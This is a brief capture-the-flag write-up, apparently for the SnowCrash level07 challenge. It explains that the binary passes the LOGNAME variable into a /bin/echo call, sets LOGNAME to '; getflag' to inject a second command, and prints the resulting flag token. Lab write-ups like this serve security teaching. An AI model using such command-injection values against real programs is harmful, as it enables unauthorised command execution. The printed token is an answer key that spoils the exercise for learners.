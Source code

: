 # Solution

So we loged in and we find a binary named level07 if we decompile this binary we can see from the generated C code,
that it create a string with the LOGNAME environment variable to do a /bin/echo,
so from this we can modified the LOGNAME variable to call getflag.

```sh
export LOGNAME="; getflag"
```

after this we can execute the binary here is the result:

```sh
level07@SnowCrash:~$ ./level07 

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
